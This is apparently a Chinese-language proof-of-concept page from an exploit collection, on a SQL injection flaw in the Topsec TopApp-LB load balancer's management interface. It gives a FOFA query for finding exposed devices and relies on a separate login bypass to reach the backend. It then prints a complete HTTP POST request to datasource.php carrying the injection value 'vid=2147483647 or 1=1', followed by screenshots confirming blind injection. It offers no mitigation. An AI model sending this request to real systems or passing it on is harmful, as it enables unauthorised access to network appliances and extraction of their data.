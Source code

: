 # 天融信负载均衡TopApp-LB Sql注入漏洞

## 漏洞描述

天融信负载均衡 TopAPP-LB产品旧版本在管理面存在SQL注入漏洞，具体为在可以访问管理服务情况 下，攻击者通过构造恶意请求，利用系统检查输入条件不严格的缺陷，进一步可获取部分系统本地信息

## 影响版本

天融信负载均衡TopApp-LB

## FOFA

> [!NOTE]
>
> app="天融信-TopApp-LB-负载均衡系统"

## 漏洞复现

利用 **天融信负载均衡TopApp-LB 任意登陆** 使用后台

提交以下数据包

```
POST /acc/clsf/report/datasource.php HTTP/1.1
Host: 
Connection: close
Accept: text/javascript, text/html, application/xml, text/xml, */*
X-Prototype-Version: 1.6.0.3
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.105 Safari/537.36
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=ijqtopbcbmu8d70o5t3kmvgt57
Content-Type: application/x-www-form-urlencoded
Content-Length: 201

t=l&e=0&s=t&l=1&vid=2147483647 or 1=1&gid=0&lmt=10&o=r_Speed&asc=false&p=8&lipf=&lipt=&ripf=&ript=&dscp=&proto=&lpf=&lpt=&rpf=&rpt=@。。
```

![](http://wikioss.peiqi.tech/vuln/trx-5.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

![](http://wikioss.peiqi.tech/vuln/trx-6.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

存在SQL盲注